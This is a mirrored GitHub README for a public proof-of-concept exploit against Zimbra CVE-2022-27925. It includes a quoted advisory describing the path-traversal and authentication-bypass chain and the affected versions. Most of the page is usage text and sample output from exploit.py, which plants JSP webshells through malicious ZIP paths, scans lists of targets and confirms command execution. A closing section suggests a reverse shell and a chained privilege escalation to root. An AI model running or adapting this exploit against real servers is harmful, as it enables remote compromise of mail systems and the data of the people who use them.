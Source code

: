 # CVE-2022-27925

Zimbra CVE-2022-27925 PoC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Josexv1](https://github.com/Josexv1) |
| Url      | [https://github.com/Josexv1/CVE-2022-27925](https://github.com/Josexv1/CVE-2022-27925)                                               |
| Stars    | 35                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-27925* exploit* poc* zimbra

</details>

## Readme

# CVE-2022-27925

# Description
On May 10, 2022, Zimbra released versions 9.0.0 patch 24 and 8.8.15 patch 31 to address multiple vulnerabilities in Zimbra Collaboration Suite, including CVE-2022-27924 (which we wrote about previously) and CVE-2022-27925.

Originally, Zimbra called CVE-2022-27925 an authenticated path-traversal attack, where an administrative user could write files into any directory on the filesystem as the Zimbra account. Because it was originally thought to be an administrator-only attack, NVD assigned it a CVSS base score of 7.8. Later, Volexity noticed that attackers exploiting this vulnerability had found a way to bypass the administrative requirements, and wrote about it on August 10, 2022. This new authentication bypass got a new identifier – CVE-2022-37042.

By combining the original path-traversal vulnerability and new authentication bypass, attackers can remotely compromise a Zimbra Collaboration Suite system via the administrator port (by default, 7071) anonymously. Combined with a currently unpatched privilege escalation vulnerability that we recently wrote about and wrote an exploit for, these three vulnerabilities lead to remote command execution as the root user on unpatched systems.

Although the public advisories don’t mention it, according to our analysis, Zimbra Collaboration Suite Network Edition (the paid edition) is vulnerable, and the Open Source Edition (free) is not (since it does not have the vulnerable mboximport endpoint). Vulnerable versions are:

    Zimbra Collaboration Suite Network Edition 9.0.0 Patch 23 (and earlier)
    Zimbra Collaboration Suite Network Edition 8.8.15 Patch 30 (and earlier)

These vulnerablities (and others in Zimbra) are being targeted for widespread exploitation in the wild, and should therefore be patched or taken offline as soon as possible. If you suspect you’ve been compromised, Zimbra provides steps to rebuild your Zimbra Collaboration Suite server from scratch on the latest patch without losing data.

Source: https://attackerkb.com/topics/dSu4KGZiFd/cve-2022-27925/rapid7-analysis

## Usage
```
 _____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925

usage: exploit.py [-h] [-t TARGET] [-l LIST]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URl with protocol HTTPS
  -l LIST, --list LIST  List of targets
```

# Example run

```
root@root# python exploit.py -t zimbra.example.com
_____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925

[!] Testing URL: https://zimbra.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/BQOQBN.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux

root@root# python exploit.py -l targets.txt

 _____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925

[!] Testing URL: https://patched.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Testing URL: https://zimbra.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Testing URL: https://patched.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable

root@root# .
```

# Root the box!

To root the box you can call a reverse shell, and then use [Slaper's LPE](https://github.com/darrenmartyn/zimbra-slapper)



## Get the content

```
git clone https://github.com/Josexv1/CVE-2022-27925
cd CVE-2022-27925
```

{% embed url="https://github.com/Josexv1/CVE-2022-27925" %}

<figure><img src="https://avatars.githubusercontent.com/u/12077848?v=4" alt=""><figcaption><p>Josexv1</p></figcaption></figure>
